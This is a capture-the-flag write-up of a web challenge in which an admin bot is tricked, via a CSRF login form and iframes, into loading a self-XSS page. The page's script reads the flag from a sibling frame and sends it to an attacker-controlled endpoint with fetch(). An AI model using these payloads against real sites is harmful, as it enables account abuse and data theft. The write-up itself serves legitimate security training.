



## Tech Support
This was a **web** challenge with a website where we could seek tech support.  
The flag is located at */flag* but it's accessible only from an **admin account**.  
The first thing we tried was using a simple XSS payload when setting our address on the page found at */me*.  

It worked, **we won**! Right?  
Not really, there's no way to make the admin-bot visit this page. We keep searching...  
<br>
When we request the chat support we have to state a **reason** before entering the captcha.  
The chat itself isn't really useful, but the *reason* stated before is rendered on the page on an invisible iframe!  

The bot will visit the page in the iframe, and our payloads will work but... It's in a **different domain** :(  
The **Same-Origin Policy (SOP)** prevents the code running in that page from accessing the flag in the other domain (where the flag is stored). Let's try and find a way in.  
<br>
### Failed attempts
At first I tried an approach where I would try and set a **new** */me* (abusing the fact that the CSRF token was not checked) in the bot account and redirect it towards it. The XSS in */me* would be used in an iframe to **steal** the flag, this is better described later in the writeup.  
This approach didn't work, probably because the bot was disallowed from having a */me* endpoint.  
<br>
After that I tried to log in the admin-bot in my account and steal the flag like I tried before... I got stuck for more time than I would like to admit because I was simply loading */flag* through **my** account 🤦 (The cookies are **shared** between the parent and the iframe)  
Then a friend kindly helped me and made me realise that what I was doing made no sense.  
<br>
### CSRF+XSS done right
After the pointers given to me we created a payload with two iframes.  
One iframe contained the */flag* endpoint, the other would log in **my** account and visit the */me* endpoint triggering my **Javascript payload**.  
The payload would then take the flag from the other iframe (using [iframe-to-inframe](https://www.dyn-web.com/tutorials/iframes/refs/) interaction) given that */me* and */flag* share the same **origin**.  
Between this actions there has to be some waiting period for the resources to load, or bad things could happen because of shared cookie jars.
<br>
The CSRF code we uploaded is the following  
```
<iframe id="flag_frame" src="https://typeselfsub.web.ctfcompetition.com/flag"></iframe>

        <form id="evil" action="https://typeselfsub.web.ctfcompetition.com/login" target="me_frame" method="POST">
            <input type="text" id="username" name="username" value="sparrrgh">
            <input id="password" name="password" value="REDACTED">
            <input type="hidden" name="csrf" value="">
        </form>

        <script>
            setTimeout(function(){
            	<!-- Log in my account -->
                evil.submit();
        
                setTimeout(function(){
                    <!-- Visit my page containing the XSS payload -->
                    me_frame.src = 'https://typeselfsub.web.ctfcompetition.com/me';
                }, 3000);
            }, 3000);
        </script>
        
        <iframe name="me_frame" id="me_frame"></iframe>
```
While the XSS payload used in the */me* page is simply taking the flag from the document and sending it to an endpoint we control  
```<script>
        let flagd = parent.frames[0].window.document.getElementById('flag').innerText;
        fetch('https://myendpoint.com?flag='.concat(flagd));
    </script>
```
Notice how `frames[0]` is used, that's because accessing the parent document in other ways would break **SOP** rules, since the origin in the iframe and the one in the page are different!  
<br>
The last thing needed was to embed an iframe (*another one*) as a *reason* in the request for chat containing the page with our **CSRF payload** thus starting the chain of payloads!  
And there it was, the flag!  
`CTF{self-xss?-that-isn't-a-problem-right...}`

